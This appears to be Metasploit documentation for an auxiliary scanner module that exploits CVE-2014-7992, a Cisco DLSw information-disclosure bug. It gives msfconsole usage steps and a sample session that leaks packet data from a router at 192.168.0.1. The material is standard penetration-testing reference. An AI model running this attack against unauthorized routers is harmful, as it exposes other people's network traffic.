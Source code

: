 ## Vulnerable Application

This module implements the DLSw information disclosure retrieval. There is a bug in Cisco's DLSw implementation affecting 12.x and 15.x trains that allows an unauthenticated remote attacker to retrieve the partial contents of packets traversing a Cisco router with DLSw configured and active.

## Verification Steps

1. Start msfconsole
2. Do: `use modules/auxiliary/scanner/dlsw/dlsw_leak_capture`
3. Do: `set RHOSTS [ip]`
4. Do: `run`

## Scenarios

### IOS version 12.4(8) and Kali Linux 2019.3

  ```
  msf > use modules/auxiliary/scanner/dlsw/dlsw_leak_capture
  msf auxiliary(scanner/dlsw/dlsw_leak_capture) > set RHOSTS 192.168.0.1
    RHOSTS => 192.168.0.1
  msf auxiliary(scanner/dlsw/dlsw_leak_capture) > run
    [*] 192.168.0.1:2067      - Checking for DLSw information disclosure (CVE-2014-7992)
    [+] 192.168.0.1:2067      - Vulnerable to DLSw information disclosure; leaked 72 bytes
    [*] 192.168.0.1:2067      - DLSw leaked data stored in /root/.msf4/loot/20191124231804_default_192.168.0.1_dlsw.packet.cont_518857.bin
    [*] 192.168.0.1:2067      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
